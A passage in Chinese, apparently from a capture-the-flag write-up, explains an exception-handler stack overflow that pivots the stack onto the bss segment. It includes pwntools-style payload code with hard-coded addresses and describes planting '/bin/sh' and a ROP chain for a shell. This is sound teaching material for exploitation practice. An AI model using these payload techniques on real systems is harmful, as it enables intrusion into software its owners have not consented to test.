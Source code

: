 *   首先通过 name 在 bss 段伪造栈底，ret 设置为 test 函数，rbp 仍设置为 bss 地址，就可以在 bss 的伪造栈上再次 read 导致溢出
*   第一次进入 test 溢出，rbp 覆盖为 name 地址，再次跳转 test
*   第二次进入 test 溢出，在 bss 上留下字符串`/bin/sh`以及`rop`片段信息
*   在 bss 上再次触发异常处理，利用 rbp 覆盖跳转到上一步留下的 ROP 片段

下面将详细说明每一步的内容

#### 覆盖 rbp 进行栈转移

首先用 name 来伪造一个栈底部，然后覆盖 rbp 为 bss 段的`name`变量地址，payload 构造如下

```bash
name_addr = 0x4D93D0 #变量 name 的地址，保证二次溢出时的栈帧仍在 bss 上
test_addr = 0x401a75 #test 函数的地址，再次调用 read 溢出

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)
```

可以注意到在`catch handler`结束时，由于我们在 bss 上留下`[name_addr+8]==test_addr`，ret 将再次进入`test()`

[![](assets/1701606727-78c28b444d1b4b2609a7c9ab13976329.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164829-6cad5b32-7d4a-1.png)

并且由于此时栈帧已经被转移到了 bss 上，图中的栈帧和 rsi 可见，`read()`将在 bss 上做栈溢出
